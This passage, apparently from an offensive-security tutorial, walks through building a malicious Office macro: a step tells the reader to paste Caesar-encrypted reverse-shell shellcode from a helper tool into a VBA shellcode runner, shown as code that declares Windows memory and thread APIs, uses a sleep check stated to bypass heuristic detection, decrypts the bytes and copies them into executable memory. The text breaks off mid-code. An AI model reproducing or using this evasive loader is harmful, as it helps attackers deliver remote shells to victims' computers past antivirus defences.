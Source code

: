                     Console.WriteLine("The payload is: " + hex.ToString());
                }
            }
        }
        ```
3. After compile the scrip and execute it, insert the output from `CeasarVBAHelper.exe`, which contains the encrypted reverse shellcode, into the VBA shellcode runner below:
    ```vb
    Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

    Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

    Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

    Private Declare PtrSafe Function Sleep Lib "KERNEL32" (ByVal mili As Long) As Long

    Function MyMacro()
        Dim buf As Variant
        Dim addr As LongPtr
        Dim counter As Long
        Dim data As Long
        Dim res As Long
        Dim t1 As Date
        Dim t2 As Date
        Dim time As Long
        Dim i As Integer
        
    'sleeper to bypass heuristic detection
        t1 = Now()
        Sleep (2000)
        t2 = Now()
        time = DateDiff("s", t1, t2)
        
        If time < 2 Then
            Exit Function
        End If

    'shellcode generated with the helper
        buf = Array(254, 234, 145, 2, 2, 2, 98, 51,........)

    'decryption routine
    For i = 0 To UBound(buf)
        buf(i) = buf(i) - 2
    Next i

        addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
        
        For counter = LBound(buf) To UBound(buf)
            data = buf(counter)
            res = RtlMoveMemory(addr + counter, data, 1)
        Next counter
        